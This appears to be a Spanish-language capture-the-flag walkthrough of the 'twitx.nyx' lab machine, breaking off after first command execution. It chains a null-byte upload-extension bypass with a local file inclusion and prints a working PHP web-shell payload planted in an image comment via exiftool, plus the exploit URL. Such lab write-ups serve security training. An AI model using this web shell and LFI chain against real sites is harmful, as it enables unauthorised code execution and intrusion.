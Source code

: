 Hacemos el escaneo con nmap:
![[Pasted image 20240531123145.png]]
En el puerto 80 vemos una plantilla de apache:
![[Pasted image 20240531123203.png]]
Haciendo fuzzing web, vemos el directorio note:
![[Pasted image 20240531123358.png]]
Donde se nos proporciona un dominio twitx.nyx:
![[Pasted image 20240531123415.png]]
Lo añadimos en el archivo hosts:
![[Pasted image 20240531123444.png]]
Y vemos lo siguiente:
![[Pasted image 20240531123510.png]]
Debajo tenemos un panel de subida de archivos:
![[Pasted image 20240531131335.png]]
Petición interceptada:
![[Pasted image 20240531124723.png]]
Y modificamos el contenido de la imagen para que tenga una reverse shell de php:
![[Pasted image 20240531124929.png]]
Tenemos que hacer un bypass de la extensión utilizando null byte, donde tenemos el siguiente artículo con unas instrucciones:
```bash
https://www.thehacker.recipes/web/inputs/null-byte-injection
```
![[Pasted image 20240531125404.png]]
Por lo que desde burp suite haremos el bypass de esta forma.
![[Pasted image 20240531125434.png]]
Cambiamos también el correo porque sino nos dará error de que dicho email ya existe:
![[Pasted image 20240531125532.png]]
Y vemos que se ha enviado correctamente:
![[Pasted image 20240531125940.png]]
Y dentro del código fuente vemos una cadena de texto url-encodeada:
![[Pasted image 20240531130214.png]]
Lo pasamos por el decoder de burp suite:
![[Pasted image 20240531130403.png]]
Y tenemos el siguiente texto, pero no muestra nada interesante:
![[Pasted image 20240531130626.png]]
Ahora, para acceder al log-in, tenemos que esperar, ya que nos sale el siguiente aviso de que podremos iniciar sesión en su debido tiempo:
![[Pasted image 20240531130914.png]]
Por lo que ejecutamos el siguiente comando para poder adelantar la fecha por 2 días:
```bash
sudo date --set="2 days"
```
![[Pasted image 20240531130942.png]]
Y ya podemos iniciar sesión:
![[Pasted image 20240531131004.png]]
Y ahora estamos dentro de nuestro perfil:
![[Pasted image 20240531131553.png]]
Si miramos el código fuente, vemos como tenemos nuestra imagen subida pero con otro nombre:
![[Pasted image 20240531131618.png]]
Pero si accedemos a ella da error:
![[Pasted image 20240531131641.png]]
No obstante, tenemos esta url que puede ser vulnerable a un LFI:
![[Pasted image 20240531131825.png]]
Vemos que pudimos acceder a la imagen, por lo que vamos a incrustarle una reverse shell para conseguir que ese comando se ejecute:
```bash
exiftool -Comment='<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";?>' penguin.png
```
![[Pasted image 20240531132520.png]]
Y vamos a subir esta nueva imagen al momento de registrarnos:
![[Pasted image 20240531132738.png]]
Vemos la imagen en el código fuente:
![[Pasted image 20240531132804.png]]
![[Pasted image 20240531132810.png]]
Y para acceder a esta imagen para ejecutar un comando, debemos de modificar la URL de arriba:
```bash
folder=upload&file=17925084436659b4094d14f8.53358270.png
```
La url original:
```bash
view-source:http://twitx.nyx/private.php?folder=user&file=profile.php
```
La nueva url:
```bash
view-source:http://twitx.nyx/private.php?folder=upload&file=17925084436659b4094d14f8.53358270.png&cmd=id
```
Y conseguimos obtener esto:
![[Pasted image 20240531133401.png]]

